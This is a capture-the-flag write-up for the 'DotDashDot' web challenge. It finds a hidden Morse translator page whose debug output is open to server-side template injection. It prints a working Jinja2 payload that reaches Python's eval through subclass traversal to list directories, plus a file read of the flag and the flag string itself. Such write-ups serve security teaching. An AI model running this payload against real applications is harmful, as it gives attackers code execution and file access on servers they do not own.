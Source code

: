 # DotDashDot 

- Category: Web
- Difficulty: Extreme

Challenge text:
```
An ancient relic of the past... what's it doing here?
http://dotdashdot.d.lagncra.sh 
```

## Solving the challenge
Firstly, lets navigate to the URL provided.
On visiting the page, we see this:  
![image](https://user-images.githubusercontent.com/58442255/233332323-559e150e-2441-4da9-9e47-6af19f260585.png)

Let's look for clues in the website.  
In the source, we see this comment:
```html
<!-- TODO: Repair this page <p>MORSE: <a href="/translate">UP</a></p> -->
```

This shows that there is a page `/translate` in the site. Let us visit http://dotdashdot.d.lagncra.sh/translate.

At /translate, we see this page to convert text into morse:  
![image](https://user-images.githubusercontent.com/58442255/233391274-58c1def0-ecb3-4bfd-a815-898589108c2a.png)
After translation, we are presented with the morse code form of the text. If we decode the morse, we get back the original text.

If we try a payload like `{{7*7}}`, we notice that the morse code is still `77`(omitting characters that cannot be represented in morse).  
However, if we view the source, we can see a debug section that was supposed to be removed:
```html
 <!-- <div> TODO: Remove debug information
                    <h2>Debug Info</h2>
                    <p>Input: 49</p>
                </div> -->
```

It appears that the debug field is vulnerable to Server-Side Template Injection (SSTI).

We can use a payload to gain Python RCE into the system:
```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").listdir()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
This iterates through the subclasses of the base class (`__base__`), and finds `eval` in `__globals__`, and lists the current directory.  

The output shows:
![image](https://user-images.githubusercontent.com/58442255/233395728-92c6bf27-82c8-478c-8344-ad343ddd0e3f.png)

It appears that we are in the root directory.

After searching around for quite some time, I found the flag in `/www/flag.txt`:
```python
open("/www/flag.txt").read()
```

And we got the flag!
![image](https://user-images.githubusercontent.com/58442255/233396291-97908adf-fc4e-4480-ba9a-c1cb53143fc6.png)


`LNC2023{T3mpl4t35_4r3_c00L_bUt_d4nG3r0u5_776843}`

